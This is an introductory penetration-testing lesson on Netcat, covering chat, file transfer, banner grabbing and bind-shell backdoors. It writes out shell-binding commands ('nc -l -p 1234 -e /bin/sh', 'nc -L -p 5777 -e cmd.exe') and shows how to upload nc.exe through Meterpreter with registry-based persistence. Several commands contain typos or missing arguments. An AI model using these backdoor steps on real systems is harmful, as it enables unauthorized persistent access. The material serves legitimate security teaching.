 ```yaml
---
title: Netcat
course: intro_pentest
section: "Maintaining Access with Backdoors and Rootkits"
layout: lesson
---
```


Netcat is an incredibly and unbelievably flexible tool that allows communication
and network traffic to flow from one machine to another. Although Netcat’s
flexibility makes it an excellent choice for a backdoor, there are dozens of
other uses for this tool. Netcat can be used to transfer files between machines,
conduct port scans, serve as a simple instant messenger/chat and even function
as a simple web server!. We’ll cover the basics here, but you should spend time
practising and playing with Netcat. You’ll be amazed at what this tool is
capable of. It is nicknamed the “swiss army knife” for a reson.

Netcat was originally written and released by Hobbit in 1996 and supports
sending and receiving both TCP and UDP traffic. Netcan can function in either a
client or server mode. When it is in client mode, the tool can be used to make a
network connection to another service (including another instance of Netcat). It
is important to remember that Netcan can connect from any port on your local
machine to any port on the target machine. While Netcat is running in server
mode, it acts as a listener where it waits to accept an incoming connection.

Let’s start with a very basic example of how we can use Netcat. In this example,
we’ll set up Netcat to serve as a communication channel between two machines. To
set this up on the first machine, we simply need to choose a port and instruct
Netcat to run in listener mode. Issuing the following command in a terminal will
accomplish this task:

```
nc -l -p 2323
```

In the command above, “nc” is used to invoke the Netcat program, whereas the
“-l” is used to put Netcat into a listener mode. The “-p” is used to specify the
port number we want Netcat to listen on. At this point, Netcat is runnign and
waiting to accept an incoming connection on port 2323.

Now that we have Netcat listening on the first machine, we can move to the
second machine. To make a connection to the listening machine, we issue the
following command:

```
nc 192.168.1.7 2323
```

Running this command from the second PC will force Netcat to attempt a
connection to port 2323 on the machine with an IP address of “192.168.1.7”.
Because we have set up the first PC to act as a listener on that port, the two
PCs should now be able to communicate. We can test this by typing text into
either terminal window. Anything that we type into the terminal from either
machine, will be displayed in the terminal window of both machines. This is
because the keyboard is acting as the standard input and Netcat is simply
transporting the data entered (keystrokes) over the connection.

To end the “chat” and close the session, we can issue the CTRL+C key comination;
this will terminate the Netcat connection.

It is important to understand that once you kill or close the Netcat connection,
you’ll need to restart the program on the target machine before making another
connection. Constantly needing to connect to the target machine to restart
Netcat is not very efficient. Fortunately, if you are using the Windows version
of the program, Netcat provides a way to avoid this issue. In the Windows
version of Netcat, if we start Netcat in listener mode using a “-L” rather than
a “-l” the target will keep the connection open on the specified port even after
the client disconnects. In many ways, this makes the program persistent. Of
course, to make it truly persistent, you’d need to add the command to run every
time the machine starts. On a windows machine, this could be accomplished by
adding the Netcat program to the
"`HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run`" registry hive.

Unfortunately, in terms of making a persistent network connection, the Linux
version of Netcat is not quite straightforward. To make the Netcat connection
persistent on a Linux machine, you’d have to write a simple bash script that
forces Netcat to restart when the original connection is closed. If you are
interested in creating a persistent connection, there are many examples to be
found on the Internet.

Although the example above is an interesting use of Netcat and great for
demonstrating the flexibility and power of the tool, actually you’ll probably
never use the “chat” feature during a penetration test. On the other hand, once
you have got Netcat uploaded to your target system, there are many practical
uses for the tool. Let’s take a look at something a bit more advanageous, like
transferring files.

Moving files between computers is easy when we have got the Meterpreter shell
running, but remember, we don’t want to exploit the target every time. Rather,
the goal is to exploit once and then leave a backdoor so we can return at a
later date. If we upload Netcat to the target, we can use the program to
transfer files to and from our target across a network.

For this example, assume you want to upload a new file from your local machine
to the target machine. With Netcat running on the target machine, we issue the
following command:

```
nc -l -p 7777 > calc.exe
```

This command will force the target to listen for an incoming connection on port
7777. Any input that is received will be stored into a file called “calc.exe”.

From our local machine, we need to use Netcat to make a connection to the target
and specify the file we want to send to the target. We accomplish this by
issuing the following command:

```
nc 192.168.1.10 < calc.exe
```

Unfortunately, Netcat doesn’t provide you any type of feedback letting you know
when the transfer has been completed. Because you’ll receive no indication when
the upload is done, it’s best to just wait for a few seconds and then issue a
CTRL+C to kill the connection. At this point, you should be able to run the “ls”
command on your target machine and see the newly created file.

Naturally, you could set up a Netcat connection to pull files from the target
machine by reversing the commands above.

Ofentimes, during a penetration tets, you’ll discover open ports that provide
little or no additional information. You may run across situations where both
Nmap and Nessus are unable to discover the service behind the port. In these
cases, it’s often very beneficial to use Netcat to make blind connection to the
port. Once you have made the connection, you can begin sending information to
the port by typing on the keyboard. In some instances, the keyboard input will
elicit a response from the service. This response may be helpful in allowing you
to identify the service. Consider the following example:

Assume you are conducting a penetration test on a target server. During the
scanning process you discover that port 50001 is open. Unfortunately, neither
your port scanner nor your vulnerability scanners were able to determine what
service was running behind the port. In this case, it can be handy to use Netcat
to interact with the unknown service. To force Netcat to attempt a connection to
the service, we simply enter the following command:

```
nc 192.168.1.10 50001
```

This command will attempt to create a TCP connection to the port and service. It
is important to note that you can force Netcat to send UDP packets by issuing
the “-u” switch. Once the connection is made, in most cases it’s easiest to
simply enter some etxt and hit return key to the service. If the service
responds to the unexpected request, you may be able to derive its function.

As you can see, we used Netcat to create a connection to port “50001”. Once
connected, the text “test” was sent through the connection. The service returned
with a response that clearly indicates that the mysterious services is a web
server. And even more important, the server was fully identified itself as an
Apache server running version 2.2.9 on a Linux Ubuntu machine!.

Finally, we can use Netcat to bind itself a process and make that process
available over a remote connection. This allows us to execute and interact with
the bound program as if we were sitting at the target machine itself. If we
start Netcat using the “-e” switch, it’ll execute whatever program we specify
directly after the “-e”. The program will execute on the target machine and will
run once a connection has been stablished. The “-e” parameter is incredibly
powerful and very useful for setting up a backdoor shell on a target.

To set up a backdoor, we’ll utilize the “-e” switch to bind a command shell from
the target machine to a port number. By setting up Netcat in this manner, laer
when we initialize a connection to the specified port, the program listed after
the “-e” switch will run. If we are using a Linux machine, we can accomplish
this by typing the following into a terminal window:

```
nc -l -p 1234 -e /bin/sh
```

This will cause the target to serve up a shell to whoever connects to port 1234.
Again, any commands sent from the Netcat client to the target machine will be
executed locally, as if the attacker were sitting at the target.

This technique can also be used on a Windows machine. To provide command line
backdoor access into a Windows machine, we’d run the following on the target (in
a terminal window):

```
nc.exe -L -p 1234 C:\Windows\System32\cmd.exe
```

To put the preceding example into context and hopefully make it more concrete
for you, let’s examine the following scenario to show how we could implement
  Netcat as a backdoor. Consider the following example: assume that we have
  successfully exploited a Windows target. Being forward-thinking penetration
  testers, we decide to create a more stable backdoor to this system so that we
  can return later. In this case, we have decided to use Netcat as our backdoor
  software.

The first order of bussiness would be to upload Netcat to the target machine; in
this example, the Netcat executable has been uploaded to the target’s System32
directory. Let’s assume that we utilized the knowledge gained from Chapter 4 and
we are currently using the Meterpreter shell to interact with our target. Once
we have a Meterpreter shell on our target, we can upload the Netcat file to the
victim by issuing the following command:

```
meterpreter> upload nc.exec C:\\Windows\\System32
```

Note: You’ll need to upload the Windows (.exe) version of Netcat because the
target is running Windows.

In this case, we have uploaded the nc.exe program to the Windows\System32
directory. This will allow us to access the cmd.exe program directly. Once
Netcat has been transferred to the target machine, we need to choose a port
number, bind the cmd.exe program and start Netcat in server mode. This will
force Necat to wait for an incoming connection on the specified port. To perform
these tasks, we need to issue the following command in a terminal (again,
assuming you are already in the same directory as Netcat).

```
meterpreter> nc -L -p 5777 -e cmd.exe
```

At this point, Netcat should be running on our target machine. Remember, if you
were interested in making this backdoor truly persistent, with the ability to
survive a reboot, you’d need to set the Netcat command to automatically start in
the Window registry.

Now that Netcat is set up, we can close our Meterpreter shell and make a
connection to the target using Netcat.

There should be a little doubt in your mind that Netcat is a truly powerful and
flexible tool. In this section, we have barely scratched the surface. If you
take some time to dig deeper into the program, you’ll find that people have been
able to perform some rather amazing things using Netcat. You are encouraged to
look into some of these clever implementations by searching the web, the results
will amaze you.
